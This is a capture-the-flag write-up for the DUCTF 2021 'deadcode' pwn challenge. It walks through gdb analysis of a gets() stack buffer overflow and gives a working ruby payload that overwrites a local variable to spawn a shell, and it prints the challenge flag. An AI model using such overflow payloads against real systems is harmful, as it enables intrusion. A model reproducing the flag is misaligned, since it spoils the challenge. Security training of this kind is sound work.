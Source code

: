 ## Intro
**deadcode** was a pwn challenge at DUCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that besides NX no other stack mitigations are present. Following the `ltrace` I learned the relatively simple flow of the program and found a
potential buffer overflow vulnerability because the insecure `gets` functions is used to capture user input. I loaded the program into `gdb` and disassembled
the `main` function, which is the only one as `info functions` showed.

```
...
0x00000000004011c7 <+50>:   lea    rax,[rbp-0x20]
0x00000000004011cb <+54>:   mov    rdi,rax
0x00000000004011ce <+57>:   mov    eax,0x0
0x00000000004011d3 <+62>:   call   0x401060 <gets@plt>
0x00000000004011d8 <+67>:   mov    eax,0xdeadc0de
0x00000000004011dd <+72>:   cmp    QWORD PTR [rbp-0x8],rax
0x00000000004011e1 <+76>:   jne    0x401200 <main+107>
...
0x00000000004011ef <+90>:   lea    rdi,[rip+0xed5]        # 0x4020cb  "/bin/sh"
0x00000000004011f6 <+97>:   mov    eax,0x0
0x00000000004011fb <+102>:  call   0x401050 <system@plt>
...
```
We can see here that whatever resides at `rbp-0x8` is compared to `0xdeadc0de` and if equals, `system("/bin/sh")` is executed. So the goal is to overflow
the buffer at `rbp-0x20` and write `0xdeadc0de` to `rbp-0x8` - which initially is set to `0` - to spawn us a shell. Let's set a breakpoint right before the compare and run the program
with `AAAAAAAA` as input.  

```
(gdb) r
...
Breakpoint 1, 0x00000000004011d8 in main ()
(gdb) x/8x $rbp-0x20
0x7fffffffdec0:	0x41414141	0x41414141	0x00401000	0x00000000
0x7fffffffded0:	0xffffdfd0	0x00007fff	0x00000000	0x00000000
(gdb) p $rbp-0x8
$3 = (void *) 0x7fffffffded8
```

So we have to overwrite the contents of address `0x7fffffffded8` (thats's where `rbp-0x8` points to). The `AAAAAAAA`'s we typed in were sent straight to the buffer at
`0x7fffffffdec0` (that's where `rbp-0x20` points to) as we can see by the eight `0x41`'s (ASCII value for 'A'). From here we learn we have to fill the buffer
with 24 bytes and then get to write `0xdeadc0de` to our target address.  

## Solution
Let's pull off a quick ruby exploit for proof of concept.

```
(gdb) r <<< $(ruby -e 'print "A"*24 + "\xde\xc0\xad\xde"')
...
Breakpoint 1, 0x00000000004011d8 in main ()
(gdb) x/8x $rbp-0x20
0x7fffffffdec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffded0:	0x41414141	0x41414141	0xdeadc0de	0x00000000
(gdb) x/x $rbp-0x8
0x7fffffffded8:	0xdeadc0de
(gdb) c
Continuing.


Maybe this code isn't so dead...
```

... and we've successfully overflowed the buffer satisfying the compare to get our shell. From here we can just execute `cat flag.txt`
to get the flag.

See [exploit](./exploit.py) for an automation of the exploit written in python.  

> DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}

